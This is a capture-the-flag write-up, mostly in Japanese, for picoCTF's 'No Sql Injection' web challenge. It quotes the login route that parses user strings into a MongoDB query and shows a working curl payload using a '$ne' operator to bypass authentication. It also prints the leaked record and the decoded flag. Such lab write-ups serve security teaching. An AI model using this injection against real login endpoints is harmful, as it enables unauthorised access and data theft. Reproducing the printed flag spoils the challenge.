

# No Sql Injection:Web Exploitation:200pts
Can you try to get access to this website to get the flag?  
You can download the source [here](app.tar.gz).  
The website is running [here](http://atlas.picoctf.net:61553/). Can you log in?  

Hints  
1  
Not only SQL injection exist but also NoSQL injection exists.  
2  
Make sure you look at everything the server is sending back  

# Solution
URLとソースが渡される。  
アクセスするとただのログインフォームのようだ。  
  
問題名からもNoSQLiを行えとのことらしい。  
ソースを見るとフロントの主要個所は以下の通りであった。  
```ts
~~~
export default function Home() {
  const router = useRouter();
  const [email, setEmail] = useState("");
  const [password, setPassword] = useState("");
  const [submitting, setSubmitting] = useState(false);
  const [visible, setVisible] = useState(true);
  const [message, setMessage] = useState("");

  const handleSubmit = async (e: React.FormEvent) => {
    e.preventDefault();
    if (email !== "" || password !== "") {
      setSubmitting(true);
      try {
        const response = await fetch("/api/login/", {
          method: "POST",
          body: JSON.stringify({
            email: email,
            password: password,
          }),
        });

        if (response.status === 200) {
          router.push("/admin");
        } else if (response.status === 401) {
          setMessage("Invalid email or password");
        }
      } catch (error) {
        setMessage("Invalid email or password");
      } finally {
        setSubmitting(false);
      }
    } else {
      setMessage("Email or password cannot be empty");
    }
  };
~~~
```
`/api/login/`にJSONを文字列化したものをPOSTし、200であればログインに成功するようだ。  
`/api/login/`のソースは以下の通りであった。  
```ts
import User from "@/models/user";
import { connectToDB } from "@/utils/database";
import { seedUsers } from "@/utils/seed";

export const POST = async (req: any) => {
  const { email, password } = await req.json();
  try {
    await connectToDB();
    await seedUsers();
    const users = await User.find({
      email: email.startsWith("{") && email.endsWith("}") ? JSON.parse(email) : email,
      password: password.startsWith("{") && password.endsWith("}") ? JSON.parse(password) : password
    });

    if (users.length < 1)
      return new Response("Invalid email or password", { status: 401 });
    else {
      return new Response(JSON.stringify(users), { status: 200 });
    }
  } catch (error) {
    return new Response("Internal Server Error", { status: 500 });
  }
};
```
JSONかどうか判定し、`User.find`を行っている。  
seed.tsを見ると以下の通りに初期ユーザ定義されているので、これでログインすればいいようだがパスワードがわからない。  
```ts
import User from "../models/user";


export const seedUsers = async (): Promise<void> => {
  
  try {

     const users = await User.find({email: "joshiriya355@mumbama.com"});
      if (users.length > 0) {
        return;
      }
    const newUser = new User({
      firstName: "Josh",
      lastName: "Iriya",
      email: "joshiriya355@mumbama.com",
      password: process.env.NEXT_PUBLIC_PASSWORD as string
    });
    await newUser.save();
  } catch (error) {
    throw new Error("Some thing went wrong")
  }
};
```
MongoDBでよく知られる、クエリ文に否定を含める`"$ne"`テクニックを使えばよい。  
```bash
$ curl -X POST 'http://atlas.picoctf.net:61553/api/login/' -d '{"email":"joshiriya355@mumbama.com","password":"{\"$ne\": \"satoki\"}"}' -L
[{"_id":"65f08d5715535af6a1394524","email":"joshiriya355@mumbama.com","firstName":"Josh","lastName":"Iriya","password":"Je80T8M7sUA","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2UzMWVmMzI0fQ==","__v":0}]
$ echo -n 'cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2UzMWVmMzI0fQ==' | base64 -d
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_e31ef324}
```
応答の`token`にbase64されたflagが含まれていた。  

## picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_e31ef324}